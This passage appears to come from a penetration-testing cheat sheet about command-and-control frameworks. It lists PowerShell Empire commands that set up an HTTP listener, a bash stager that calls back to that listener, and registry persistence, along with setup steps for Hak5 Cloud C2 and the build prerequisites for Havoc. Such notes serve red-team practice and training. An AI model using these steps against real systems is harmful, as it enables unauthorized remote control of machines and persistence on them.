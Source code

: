 ### Setup HTTP Listener

```console
(Empire) > listeners http
(Empire: listeners/http) > info
(Empire: listeners/http) > set Name <NAME>
(Empire: listeners/http) > set Host <LHOST>
(Empire: listeners/http) > set Port <PORT>
(Empire: listeners/http) > exeute
```

### Setup Stager

```console
(Empire: listeners) > usestager multi/bash
(Empire: listeners/multi/bash) > set Listener <NAME>
(Empire: listeners/multi/bash) > set OutFile /PATH/TO/FILE/<FILE>.sh
(Empire: listeners/multi/bash) > execute
```

### Setup Persistence Measures

```console
(Empire: <NAME>) > usemodule powershell/persistence/elevated/registry
(Empire: <NAME>/powershell/persistence/elevated/registry) > set Listener <NAME>
(Empire: <NAME>/powershell/persistence/elevated/registry) > run
```

## Hak5 Cloud C2

```console
$ ./c2-3.3.0_amd64_linux -hostname 127.0.0.1 -listenip 127.0.0.1
```

> http://127.0.0.1:8080

## Havoc

> https://github.com/HavocFramework/Havoc

### Python Environment

```console
$ sudo apt-get install build-essential
$ sudo add-apt-repository ppa:deadsnakes/ppa
$ sudo apt-get update
$ sudo apt-get install python3.10 python3.10-dev
```

### Prerequisites

```console
$ sudo apt-get install -y git build-essential apt-utils cmake libfontconfig1 libglu1-mesa-dev libgtest-dev libspdlog-dev libboost-all-dev libncurses5-dev libgdbm-dev libssl-dev libreadline-dev libffi-dev libsqlite3-dev libbz2-dev mesa-common-dev qtbase5-dev qtchooser qt5-qmake qtbase5-dev-tools libqt5websockets5 libqt5websockets5-dev qtdeclarative5-dev golang-go qtbase5-dev libqt5websockets5-dev libspdlog-dev python3-dev libboost-all-dev mingw-w64 nasm
```
